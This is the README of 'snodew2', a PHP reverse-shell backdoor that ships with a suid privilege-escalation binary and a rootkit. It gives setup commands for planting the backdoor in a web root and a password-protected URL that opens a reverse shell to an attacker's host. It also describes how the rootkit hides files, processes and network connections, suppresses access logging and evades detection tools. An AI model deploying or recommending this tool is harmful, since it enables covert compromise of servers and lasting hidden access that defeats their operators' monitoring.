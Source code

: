 
# snodew2
 * PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection.
 * new iteration of [snodew](https://github.com/mempodippy/snodew) but better.
 * snodew was previously designed to work alongside [vlany](https://github.com/mempodippy/vlany).
   * this is no longer the case as this version comes with its own specialised rootkit.
   * if you don't wish to have rootkit capabilities with snodew2, you can disable installation of the rootkit, so all that is setup is the backdoor itself.
   * but i would have to discourage doing that.

## usage
```
git clone https://github.com/naworkcaj/snodew2.git
cd snodew/
./setup.sh [install dir] [password]
```

### example usage
 * change SECRET_PORT to your own port of preference in `setup.sh` if you wish. if you don't, a random port number will be fetched
 * & you may need to change WWWNAME in `setup.sh` to match the target service user

```
./setup.sh /var/www/html/blog sexlovegod
(or without rootkit capabilities)
NO_ROOTKIT=1 ./setup.sh /var/www/html/blog sexlovegod
```
 * `setup.sh` will show you the name of snodew.php in the location you specified as the installation directory.
 * visit that in your browser. making sure you set your correct password.
   * for example, `http://lol.ok/blog/gjunmf.php?password=sexlovegod`
 * have something listening for a connection on the 'secret port' on the box of your choice.
   * `http://lol.ok/blog/gjunmf.php?password=sexlovegod&host=urbox`
   * congrats u have a shell

<b>result of successful installation:</b><br>
<img src="https://i.imgur.com/ujGtRGz.png">

<b>brief usage example upon visiting newly created php script:</b><br>
<img src="https://i.imgur.com/sDLprex.png">

<b>example reverse shell connection after giving script a target host:</b><br>
<img src="https://i.imgur.com/BSXy3Hg.png">

<b>using `./killself` in the backdoor shell:</b><br>
<img src="https://i.imgur.com/tkIrWRy.png">

## general notes
 * setup & installation of snodew is free of any dependencies.
   * excluding gcc and an available web service. and a brain i guess.
 * no encryption support??

## snodew.php & backdoor notes
 * is only a reverse shell. use a reverse shell handler.
 * trying to access snodew.php through a browser without having 'password' set & correct will display a 404 page.
   * NOT THE SERVER'S 404 PAGE. JUST A 404 PAGE.
 * suid executables can potentially be disabled on the box. most likely & usually not.
 * theoretically, snodew.php could be any kind of PHP file. you'd just have to rearrange some stuff.

## rootkit notes
 * all processes spawned for & by the rootkit are hidden.
   * in the original snodew, i had made a note of the fact that the initial spawning of the suid binary was visible in process listings.
     * this is no longer the case.
   * the original version also used extended attributes to hide regular files, i.e, not processes.
     * this too, is no longer the case. we only using a magic GID.

 * when the rootkit is installed, regular users can't see the PHP file, or the suid binary.
   * snodew determines when the service user can see the PHP file & the suid bin...
   * fundamental factors in deciding what makes the service user worthy of being able to see & access the two files are the following:
     * *you may need to change `WWWNAME` in setup.sh*
     * their UID & GID
     * their home directory
     * their environment variables
     * and their process name
 * during installation of the rootkit, you'll be given a magic variable.
   * you'll only need to use this in very special situations, most likely never. you'll know if or when you need to use it.

 * the rootkit's write() hook breaks write when buf contains the php filename.
   * this is in an effort to prevent access logs @ the php file.

## the rootkit does:
 * hide: backdoor connection information from netstat, ss, and all variants.
   * __only for connections on the secret port.__
 * hide: rootkit location from process maps files.
 * hide: obviously, files & processes spawned for or by the rootkit & snodew's backdoor.
 * evades discovery from various tools.
 * running `./killself` in a backdoor shell will remove the backdoor & rootkit from the box.
